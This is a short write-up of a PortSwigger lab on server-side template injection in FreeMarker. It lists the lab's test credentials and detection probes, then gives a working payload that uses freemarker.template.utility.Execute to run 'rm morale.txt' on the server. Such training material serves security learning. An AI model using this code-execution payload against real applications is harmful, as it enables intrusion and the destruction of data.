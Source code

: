 # [Lab: Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection). To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

## Detect SSTI

Login to content manager account.

After login, there is an special function that only authorized account have, that is `edit template`.

Play around this function:
![detection.png](./../img/lab-3-detection.png)

=> freemarker

## Freemarker payloads

read:

- <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker>

The template can be :

- Default: ${3*3} => ok
- Legacy: #{3*3} => ok
- Alternative: [=3*3] since FreeMarker 2.3.4 => fail

## Exploit

First try hehe:
![attempt-1.png](./../img/lab-3-exploit-attempt-1.png)

Solve lab:

```html
<p>Hurry! Only ${"freemarker.template.utility.Execute"?new()("rm morale.txt")} left of ${product.name} at ${product.price}.</p>
```
